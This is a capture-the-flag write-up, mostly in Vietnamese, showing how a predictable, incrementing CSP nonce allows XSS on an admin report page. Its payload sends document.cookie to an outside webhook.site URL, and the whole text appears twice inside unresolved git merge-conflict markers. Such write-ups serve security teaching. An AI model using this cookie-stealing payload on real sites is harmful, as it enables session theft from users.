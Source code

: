 <<<<<<< HEAD
Description
Our team is highly proficient in resolving a wide range of issues.

Whatever challenge you may be facing, simply present it to us, and we'll promptly provide a solution, and our employees get a cookie.


Challenge cung cấp cho tôi một trang report admin 


![1](./1.png)




Yeah mình đoán ngay được chúng ta có thể thực thi XSS ngay tại phần Description

![2](./2.png)


Mình thử XSS xem nào nhưng có vẻ nó không hoạt động

![3](./1.png)

Có vẻ như nó đã sử dụng CSP để chặn chúng ta thực thi XSS bằng cách sử dụng *nonce*  
**The 'nonce-value' token (keyword) (second notation 'nonce-<base64-value>') allows only trusted inline scripts and inline styles controlled by the protected page. Therefore, using it is a safer alternative 'unsafe-inline', which opens to execution any inline scripts and styles indiscriminately.**
Vì vậy chúng ta nhập đoạn script chứa nonce đúng với trang web nonce trang web cung cấp


![3](./3.png)


![4](./4.png)


Và mình nhận ra là mỗi phút nó sẽ tăng giá trị nonce lên 1 vậy chúng ta dễ dàng đoán được giá trị nonce tiếp theo và thực thi XSS thôi


```<script type="text/javascript" nonce="28088862">
document.location="	https://webhook.site/d04b07cc-67cc-487f-ab4f-731e51a013d2/?flag="+document.cookie;
</script>
```


Và boom we get the flag


![5](./9.png)
=======
Description
Our team is highly proficient in resolving a wide range of issues.

Whatever challenge you may be facing, simply present it to us, and we'll promptly provide a solution, and our employees get a cookie.


Challenge cung cấp cho tôi một trang report admin 


![1](./1.png)




Yeah mình đoán ngay được chúng ta có thể thực thi XSS ngay tại phần Description

![2](./2.png)


Mình thử XSS xem nào nhưng có vẻ nó không hoạt động

![3](./1.png)

Có vẻ như nó đã sử dụng CSP để chặn chúng ta thực thi XSS bằng cách sử dụng *nonce*  
**The 'nonce-value' token (keyword) (second notation 'nonce-<base64-value>') allows only trusted inline scripts and inline styles controlled by the protected page. Therefore, using it is a safer alternative 'unsafe-inline', which opens to execution any inline scripts and styles indiscriminately.**
Vì vậy chúng ta nhập đoạn script chứa nonce đúng với trang web nonce trang web cung cấp


![3](./3.png)


![4](./4.png)


Và mình nhận ra là mỗi phút nó sẽ tăng giá trị nonce lên 1 vậy chúng ta dễ dàng đoán được giá trị nonce tiếp theo và thực thi XSS thôi


```<script type="text/javascript" nonce="28088862">
document.location="	https://webhook.site/d04b07cc-67cc-487f-ab4f-731e51a013d2/?flag="+document.cookie;
</script>
```


Và boom we get the flag


![5](./9.png)
>>>>>>> 7537baaa6b0ee606b1959230b1fa3812bd3ded8e
